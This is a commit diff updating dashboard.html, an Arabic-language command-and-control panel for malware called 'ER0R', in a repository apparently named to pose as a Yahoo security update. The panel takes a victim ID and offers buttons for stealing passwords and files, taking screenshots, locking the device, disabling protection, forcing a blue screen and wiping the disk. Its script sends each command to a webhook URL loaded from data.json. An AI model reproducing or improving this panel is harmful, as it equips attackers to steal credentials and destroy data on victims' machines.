

Before and after one commit to momssd/yahoo-security-update, a plain HTML site: page dashboard.html in a window 1280 px wide. Shown: the part 135-800 px from the top of the page. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update dashboard.html

```diff
--- a/dashboard.html
+++ b/dashboard.html
@@ -2,58 +2,57 @@
 <html lang="ar" dir="rtl">
 <head>
     <meta charset="UTF-8">
-    <title>ER0R C2 - MASTER CONTROL</title>
+    <title>ER0R C2 - GOD MODE</title>
     <style>
-        body { background: #050505; color: #fff; font-family: 'Segoe UI', sans-serif; padding: 20px; }
-        .main { max-width: 900px; margin: auto; border: 2px solid #6001d2; border-radius: 15px; padding: 25px; background: #0a0a0a; box-shadow: 0 0 30px rgba(96, 1, 210, 0.5); }
-        .grid { display: grid; grid-template-columns: 1fr 1fr; gap: 20px; }
-        .card { background: #111; border: 1px solid #222; padding: 15px; border-radius: 10px; }
-        h3 { color: #6001d2; border-bottom: 1px solid #333; padding-bottom: 10px; }
-        .btn { background: #1a1a1a; border: 1px solid #6001d2; color: #fff; padding: 12px; cursor: pointer; width: 100%; margin: 5px 0; border-radius: 5px; transition: 0.3s; }
-        .btn:hover { background: #6001d2; box-shadow: 0 0 15px #6001d2; }
-        .lock-btn { border-color: #ff0055; color: #ff0055; }
-        .lock-btn:hover { background: #ff0055; color: #fff; }
-        #console { background: #000; color: #0f0; padding: 15px; height: 120px; overflow-y: auto; margin-top: 20px; border-radius: 5px; font-family: monospace; font-size: 13px; }
+        body { background: #000; color: #fff; font-family: sans-serif; padding: 20px; }
+        .panel { max-width: 1000px; margin: auto; border: 2px solid #6001d2; padding: 30px; border-radius: 20px; background: #050505; box-shadow: 0 0 50px #6001d2; }
+        .grid { display: grid; grid-template-columns: repeat(3, 1fr); gap: 15px; }
+        .card { background: #111; border: 1px solid #222; padding: 15px; border-radius: 10px; text-align: center; }
+        .btn { background: #000; border: 1px solid #6001d2; color: #fff; padding: 12px; cursor: pointer; width: 100%; margin: 5px 0; border-radius: 8px; font-weight: bold; }
+        .btn:hover { background: #6001d2; }
+        .danger { border-color: #ff0000; color: #ff0000; }
+        .danger:hover { background: #ff0000; color: #fff; }
+        #log { background: #000; color: #0f0; padding: 10px; height: 100px; overflow-y: auto; margin-top: 20px; border: 1px solid #222; font-family: monospace; }
     </style>
 </head>
 <body>
-    <div class="main">
-        <h1 style="text-align:center; color:#6001d2; text-shadow: 0 0 10px #6001d2;">📟 منظومة السيطرة المطلقة ER0R V3</h1>
-
-        <div style="text-align:center; margin-bottom:20px;">
-            <input type="text" id="vID" placeholder="أدخل ID الضحية" style="padding:12px; width:300px; background:#000; border:1px solid #6001d2; color:#fff; text-align:center;">
-        </div>
+    <div class="panel">
+        <h1 style="color:#6001d2; text-shadow: 0 0 10px #6001d2;">📟 مركز السيطرة الكونية ER0R V3</h1>
+        <input type="text" id="targetID" placeholder="ID الهدف" style="width:100%; padding:15px; background:#000; border:1px solid #6001d2; color:#fff; margin-bottom:20px; text-align:center;">
 
         <div class="grid">
             <div class="card">
-                <h3>📂 استخراج البيانات</h3>
-                <button class="btn" onclick="exe('سحب الصور')">🖼️ سحب جميع الصور</button>
-                <button class="btn" onclick="exe('سحب الفيديو')">🎥 سحب الفيديوهات</button>
-                <button class="btn" onclick="exe('تصوير الشاشة')">📸 تصوير الشاشة</button>
+                <h3 style="color:#6001d2;">📁 البيانات</h3>
+                <button class="btn" onclick="sendCmd('سحب الكل')">📥 سحب شامل</button>
+                <button class="btn" onclick="sendCmd('تصوير الشاشة')">📸 لقطة شاشة</button>
+                <button class="btn" onclick="sendCmd('سحب الباسوردات')">🔑 كلمات المرور</button>
             </div>
             <div class="card">
-                <h3>🔒 التحكم والقيود</h3>
-                <button class="btn lock-btn" onclick="exe('إظهار واجهة التحكم')">🚫 قفل الجهاز (GUI + Input)</button>
-                <button class="btn" onclick="exe('إلغاء القفل')">🔓 فك قفل الجهاز</button>
-                <button class="btn lock-btn" onclick="exe('فرمتة')">💀 تدمير وفرمتة</button>
+                <h3 style="color:#6001d2;">🕹️ الإزعاج</h3>
+                <button class="btn" onclick="sendCmd('تزمير')">📢 إطلاق تزمير عالي</button>
+                <button class="btn" onclick="sendCmd('فتح موقع')">🌐 فتح موقع إجباري</button>
+                <button class="btn" onclick="sendCmd('إظهار واجهة التحكم')">🚫 قفل الجهاز</button>
+            </div>
+            <div class="card">
+                <h3 style="color:red;">☢️ تدمير</h3>
+                <button class="btn danger" onclick="sendCmd('تعطيل الحماية')">🛡️ إطفاء الحماية</button>
+                <button class="btn danger" onclick="sendCmd('شاشة الموت')">💀 شاشة الموت</button>
+                <button class="btn danger" onclick="sendCmd('فرمتة')">🔥 مسح وتدمير</button>
             </div>
         </div>
-
-        <div id="console">> System ready. Standing by...</div>
+        <div id="log">> Waiting for target...</div>
     </div>
 
     <script>
-        async function exe(cmd) {
-            const id = document.getElementById('vID').value;
-            if(!id) return alert("يرجى إدخال ID الهدف أولاً!");
-
-            document.getElementById('console').innerHTML += `<br>> Executing [${cmd}] on ${id}...`;
-
-            const configData = await fetch('./data.json').then(r => r.json());
-            await fetch(configData.webhook_url, {
+        async function sendCmd(c) {
+            const id = document.getElementById('targetID').value;
+            if(!id) return alert("أدخل ID الضحية!");
+            document.getElementById('log').innerHTML += `<br>> Executing [${c}]...`;
+            const cfg = await fetch('./data.json').then(r => r.json());
+            await fetch(cfg.webhook_url, {
                 method: 'POST',
                 headers: {'Content-Type': 'application/json'},
-                body: JSON.stringify({ content: `⚠️ **أمر سيطرة:**\nالهدف: \`${id}\`\nالأمر: **${cmd}**` })
+                body: JSON.stringify({ content: `⚠️ **أمر تحكم:**\nالهدف: \`${id}\`\nالأمر: **${c}**` })
             });
         }
     </script>
```
